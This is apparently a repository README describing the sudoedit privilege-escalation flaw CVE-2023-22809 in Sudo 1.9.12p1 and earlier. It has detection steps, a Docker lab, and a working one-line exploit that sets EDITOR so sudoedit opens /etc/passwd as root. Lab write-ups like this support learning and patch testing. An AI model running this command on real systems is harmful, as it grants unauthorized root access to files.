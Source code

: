 # CVE-2023-22809 Sudoedit Bypass
This vulnerability was reported by Synacktiv and a detailed report can be found [here](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

It affects Sudo<=1.9.12p1 and allows a low privileged user (who has been granted permission to edit a particular file with `sudoedit`) to escalate privileges and access/modify files as root.

## Detection
Check the sudo version is <=1.9.12p1:
```
$ sudo --version
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```

Check if you have `sudoedit` privileges on any files with `sudo -l`:
```
$ sudo -l
Matching Defaults entries for user on 3cbc8c6fdc12:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User user may run the following commands on 3cbc8c6fdc12:
    (ALL : ALL) sudoedit /etc/custom/service.conf
```

## Exploitation
Run the allowed `sudoedit` command, preceded by a malicious `EDITOR` variable containing the restricted file you want to edit as root. 

For example, if you're permitted to run `sudoedit /etc/custom/service.conf` and you want to edit the restricted file `/etc/passwd`, run the following:

`EDITOR='vim -- /etc/passwd' sudoedit /etc/custom/service.conf` 

Vim will open `/etc/passwd` with read/write access as root!

## Try it out
Download this repo.

From this folder, run:

`docker build -t ubuntu_sudo .`

Then run the docker:

`docker run -it ubuntu_sudo`

You should be logged in as the user `user`, the password for which is also `user`. 

Try to edit `/etc/passwd` and you do not have write access. Run the detection and exploitation steps above and you should be able to edit it.
